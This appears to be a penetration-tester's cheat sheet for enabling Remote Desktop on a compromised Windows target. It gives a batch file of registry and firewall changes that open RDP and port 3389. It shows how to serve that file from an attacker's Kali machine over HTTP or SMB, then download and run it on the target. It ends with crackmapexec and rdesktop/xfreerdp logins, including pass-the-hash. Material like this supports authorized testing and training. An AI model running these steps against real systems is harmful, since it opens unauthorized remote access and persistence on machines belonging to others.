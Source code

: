 # Enable Remote Desktop (RDP) on the target via an elevated shell

You will need an elevated shell to enable RDP

Save the following commands on a .bat file - ex.: `enablerdp.bat`

```
reg add "hklm\system\currentControlSet\Control\Terminal Server" /v "AllowTSConnections" /t REG_DWORD /d 0x1 /f
reg add "hklm\system\currentControlSet\Control\Terminal Server" /v "fDenyTSConnections" /t REG_DWORD /d 0x0 /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fAllowToGetHelp /t REG_DWORD /d 1 /f
netsh advfirewall set rule group="remote administration" new enable="yes"
netsh advfirewall firewall set rule group="remote administration" new enable=yes
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes profile=domain
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes profile=private
netsh firewall add portopening TCP 3389 "Remote Desktop"
netsh firewall set service RemoteDesktop enable
netsh firewall set service RemoteDesktop enable profile=ALL
netsh firewall set service RemoteAdmin enable
sc config TermService start= auto
net start Termservice
```


# HTTP

Start hosting the file on a HTTP server
```
cd /usr/share/windows-resources/binaries/
sudo python -m http.server 80
```

On the target, copy the file on PowerShell and execute it.
```
cd C:\Temp\
Invoke-WebRequest -Uri 'http://<Kali_IP>/enablerdp.bat' -OutFile C:\Temp\enablerdp.bat
cmd
enablerdp.bat
```


## SMB

Start hosting the file on a SMB share.
```
cd /usr/share/windows-resources/binaries/
impacket-smbserver share $(pwd) -smb2support
```


On the target copy the file and execute it.
```
xcopy \\<Kali_IP>\share\enablerdp.bat C:\Temp\
C:\Temp\enablerdp.bat
```


OR


```
crackmapexec smb <Target_IP> -u '<username>' -p '<password>' -M rdp -o ACTION=enable
```
- I am not sure if this really works



Now, try to access it
```
rdesktop <Target_IP> -d '<DOMAIN>' -u '<User>' -p '<Pwd>'
```

OR

```
xfreerdp /v:<Target_IP> /d:<DOMAIN> /u:<User> /pth:<HASH>  
```

